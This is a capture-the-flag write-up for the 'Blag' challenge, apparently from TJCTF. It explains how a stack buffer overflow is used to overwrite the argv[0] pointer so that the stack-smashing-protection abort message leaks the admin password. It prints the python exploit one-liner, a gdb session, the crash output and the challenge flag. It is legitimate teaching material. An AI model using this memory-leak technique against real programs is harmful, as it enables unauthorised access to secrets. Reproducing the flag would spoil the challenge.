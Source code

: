 # Blag (180 points)


###Problem overview:

  You're given a binary for a blog server that has a bug. You must exploit this bug to get the flag out of the admin's post, which the server won't let you read under normal circumstances.
  
###The process:
   I'll have to admit, this one had me stumped until the last two hours of the competition
I spent probably 5 or 6 hours in total looking at the source. I found the initial buffer overflow within about 10 minutes, but I didn't know what to do with it.
   
```C
52:  readline(buf,sizeof(p->body),stdin); //buffer overflow 320 -> 32
```
   
Despite my initial hopes, this buffer overflow proved to be useless (or did it?) due to ProPolice Stack Smashing Protection (SSP). I'm sure a lot of you saw this:
```
*** stack smashing detected ***: ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42 terminated
```
   
   
  I gave up on this problem on the first day and came back to it with ~4 hours left in the competition. My teammates and I combed through the source again, and we concluded that the aforementioned buffer overflow was the only vulnerability in the program. I tried to overflow the buffer again, but this time with the full overflow size (320 bytes), and this time I got something interesting

```
$ python -c 'print "add\n" + "a\n" +"a\n" + "A"*320 + "\n"' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42

...
...


Segmentation fault (core dumped)
```

  For those of you who looked at the disassembly of the functions, this should surprise you. If the stack canary is not preserved (AKA if you overflow),then the program calls another function that aborts the program. This means that the segfault above has to have occurred somewhere in SSP's own code. Armed with this information, I got my google-fu on.
  
  I found [this pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf) from Dragon Sector, a collegiate/professional CTF team. Incidentally, it also has the solution to [oneshot](oneshot_170_pts.md) in it. As it turns out, the error message from above gets the name of the program from the `argv` variable. We can overflow the pointer to this with the pointer to some other random string that we need. Namely the admin password.
  
```
$ gdb -q ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
Reading symbols from ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42...(no debugging symbols found)...done.
gdb-peda$ p &adminpassword
$1 = (<data variable, no debug info> *) 0x804b080 <adminpassword>
gdb-peda$ q
$ $ python -c 'print "add\na\na\n"+"\x80\xb0\x04\x08"*76' | ./blag_0eef9b24c4a119def3a50a6095b43d952dbf77206da9a95886a3d3e0a76fee42
...
...
*** stack smashing detected ***: meme terminated
```

I picked 'meme' as my local admin password, but if you tried it remotely you would get the real admin password. From there you can just authorize yourself and get the flag!!

pwned.
##Flag
`tjctf{I_h3aRd_ab0u7_1t_oN_th3_1nterBlag!}`


